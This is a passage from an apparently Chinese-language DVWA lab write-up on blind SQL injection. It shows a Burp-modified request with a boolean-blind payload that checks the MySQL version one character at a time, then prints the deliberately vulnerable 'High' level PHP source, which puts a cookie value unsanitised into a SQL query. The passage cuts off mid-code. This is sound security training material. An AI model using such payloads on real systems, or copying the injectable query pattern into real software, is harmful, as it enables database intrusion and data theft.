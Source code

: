 ### 漏洞利用

用 BP 改包即可

> 注：如使用特殊字符，会被过滤，需换成 ASCII 码值

如：测试 MySQL 版本号 第一位是否为 5

```mysql
1 and ascii(substr((select version()),1,1)) = 53 #
```

![image-20220823171706120](./Lab7_SQL_Injection.assets/image-20220823171706120.png)

返回：

![image-20220823171721919](./Lab7_SQL_Injection.assets/image-20220823171721919.png)





## High

### 源代码

```php
<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                // Get results
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
                } catch(Exception $e) {
                    $exists = false;
                }
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

```
